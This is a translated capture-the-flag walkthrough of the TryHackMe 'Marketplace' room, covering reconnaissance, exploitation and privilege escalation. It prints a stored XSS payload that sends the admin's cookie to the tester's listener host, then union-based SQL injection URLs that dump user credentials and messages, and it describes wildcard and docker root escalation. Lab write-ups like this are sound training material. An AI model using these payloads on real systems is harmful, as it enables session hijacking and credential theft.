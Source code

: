 # 商场盒子(THM)演练

> 原文：<https://infosecwriteups.com/walkthrough-on-marketplace-box-thm-bc7652cfcf9c?source=collection_archive---------3----------------------->

让我们解决来自 Tryhackme 的名为“市场”的盒子

![](img/9a7a0fbd47fb206bff5650ac4a19b313.png)

市场徽标

# 渗透测试方法

1.  **侦察**
2.  **枚举**
3.  **利用**
4.  **权限提升**

在 [Tryhackme](https://tryhackme.com/room/marketplace) 访问此框

# **侦察:-**

HTTP 和 ssh 打开时，Nmap 提供以下输出

![](img/b175d4d4149d4e55d5092c60dfcd441a.png)

Nmap

# **枚举:-**

由于有一个网络服务器，我们可以遍历网站，甚至可以在网站上注册

![](img/fdaa6bf8cdab6a7f29ac4ca7386304e6.png)

注册页面

*   通过浏览网站，我们可以添加新的列表，并将 XSS 有效载荷添加到这些值有效载荷- `<script>document.location="http://10.9.2.146:<port>/i.php?cookie="+document.cookie</script>`

![](img/00553af459811bc7f44d1d7a37e38305.png)

*   如果我们通过 Netcat 监听端口，它会等待用户点击并访问页面
*   现在在网页上，有一个选项向管理员报告我们的列表，他将批准/不批准该列表

![](img/ac42c83f58b8a91154be4294e8b52bc5.png)

*   点击`report to admin`后，将在 Netcat 监听器上检索管理 cookie

![](img/b0d33786d00537b7f4466c1d0d000614.png)

*   通过用管理 cookie 更改用户 cookie，将向我们显示管理面板，我们可以访问面板上的第一个标志

![](img/8f62f199eb3342352c959e78318e1bbf.png)

# 剥削:-

*   通过转到`Administration panel`并选择一个用户，我们将有一个从数据库获取数据的 URL
*   因此，通过输入带有用户值的`'''`,我们可以看到 SQL 错误

![](img/cc3817a0ad3f576dfa771d7537bbac56.png)

*   我们现在可以通过使用下面的命令`http://10.10.167.63/admin?user=10 union select database(),2,3,4--`来检索数据库名称

![](img/b65dda04b613d9c867af7662647a46ad.png)

*   我们可以通过下面的命令`http://10.10.167.63/admin?user=10%20%20union%20select%201,group_concat(table_name),3,4%20from%20information_schema.tables where table_schema=database()--%20-`检索表名

![](img/b41ea6ff9c5b3b333e932089319b4508.png)

*   我们可以通过下面的命令`http://10.10.167.63/admin?user=10%20%20union%20select%201,group_concat(column_name),3,4%20from%20information_schema.columns where table_name=users--%20-`检索列名

![](img/b816571c6dc21408b4b0eeee4285970b.png)

*   转储用户表数据`http://10.10.167.63/admin?user=10%20%20union%20select%201,group_concat(username,0x3a,password),3,4%20from users--%20-`

![](img/c95d0fd8ae3ef2794bbfcbe892aaab9f.png)

*   消息表的检索列`http://10.10.167.63/admin?user=10%20%20union%20select%201,group_concat(column_name),3,4%20from%20information_schema.columns where table_name='messages'--%20-`

![](img/fc7198c568a41946ef119c9c068aaa40.png)

*   转储消息表数据`http://10.10.167.63/admin?user=10%20%20union%20select%201,group_concat(message_content),3,4%20from%20messages--%20-`

![](img/4e5889a8fa41bb7bf9db76200943d410.png)

*   消息内容为将成为`system,jack,michael`的用户暴露`ssh password`
*   因此，我们可以使用 hydra 使用检索到的密码暴力破解用户名，结果发现 ssh 密码属于 jake

![](img/9f84c0c0a6ddc9a3edae8a1f60dbffca.png)

# 权限提升

*   通过 ssh 以`jake`的身份登录，我们可以在 jake 目录中看到`user.txt`
*   通过运行`sudo -l`，我们可以看到杰克可以作为迈克尔运行`/opt/backups/backup.sh`
*   通过使用下面的命令，我们可以利用 backup.sh 中的`*`
*   然后通过升级 backup.sh 和 shell.sh 的权限，我们就可以运行并得到一个 Michael 的 shell 了
*   通过接收 shell，我们可以使用`python -c "import pty;pty.spawn('/bin/bash')"`升级到 TTY

![](img/b10c6cadc6cacbac5b9165e8ca227032.png)

*   现在，我们可以创建一个新的 docker 容器，将根文件系统挂载到/mnt

![](img/f5e9618bfc3e3a574fffba01dad1bb44.png)

*   我们可以从`/root/root.txt`访问`root.txt`